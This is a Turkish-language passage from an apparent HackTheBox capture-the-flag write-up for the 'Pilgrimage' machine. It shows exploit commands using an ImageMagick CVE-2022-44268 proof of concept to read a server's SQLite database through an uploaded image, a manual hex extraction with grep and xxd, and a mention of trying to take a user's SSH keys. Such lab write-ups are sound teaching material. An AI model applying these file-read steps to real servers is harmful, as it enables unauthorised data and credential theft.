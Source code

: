 
Emily için SSH anahtarlarını almaya çalışacağım ama başarısız olacağım. Home dizinlerine bağlı olarak .ssh dizinine sahip olabilecekleri makul görünen başka bir kullanıcı yok.

#### Database

Kaynak kodu sitenin bir SQLite veritabanı üzerinden çalıştığını gösteriyor. Örneğin, login.php'de:

```
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
```

O dosyayı almaya çalışacağım:

```
oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /var/db/pilgrimage --output pngout.png
oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdbb27cce4.png
Traceback (most recent call last):
  File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 48, in <module>
    main()
  File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
    decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xaf in position 27: invalid start byte
```

Binary veri olduğu ve script sadece ASCII metin beklediği için bu mantıklı.

Verileri dosyadan manuel olarak çıkarabilirim. Dosyayı siteden indireceğim ve grep ile biraz oynayarak, sadece hex veri içeren satırları izole edebilirim ve sonra xxd'yi kullanarak binary'ye geri dönüştürebilirim:

```
oxdf@hacky$ identify -verbose 655cdbb27cce4.png | grep -Pv "^( |Image)"  | xxd -r -p > pilgrimage.sqlite

oxdf@hacky$ file pilgrimage.sqlite
pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 943, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 943
```

### Database Enumeration

Veritabanını sqlite3 ile açacağım:

```
oxdf@hacky$ sqlite3 pilgrimage.sqlite 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite>
```
